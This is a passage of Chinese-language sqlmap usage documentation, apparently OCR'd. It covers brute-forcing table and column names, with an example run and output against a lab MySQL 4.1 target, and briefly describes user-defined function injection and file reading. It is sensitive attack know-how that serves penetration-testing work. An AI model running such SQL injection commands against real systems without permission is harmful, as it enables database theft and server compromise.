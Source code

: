 爆破
暴力破解表名

参数：--common-tables

当使用--tables无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

1、MySQL数据库版本小于5.0，没有information_schema表。
2、数据库是Microssoft Access，系统表MSysObjects是不可读的（默认）。
3、当前用户没有权限读取系统中保存数据结构的表的权限。

暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL &lt; 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+

暴力破解列名

参数：--common-columns

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。
用户自定义函数注入

参数：--udf-inject,--shared-lib

你可以通过编译MySQL注入你自定义的函数（UDFs）或PostgreSQL在windows中共享库，DLL，或者Linux/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。
系统文件操作
从数据库服务器中读取文件

参数：--file-read
